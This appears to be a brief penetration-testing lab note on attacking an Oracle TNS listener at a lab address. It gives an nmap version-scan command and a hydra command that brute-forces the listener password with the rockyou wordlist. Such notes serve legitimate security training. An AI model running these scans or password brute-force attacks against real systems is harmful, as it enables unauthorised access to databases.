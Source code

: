 Version
```
nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82
```
![[Pasted image 20210518194444.png]]
Brute Force Listener
```
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener
```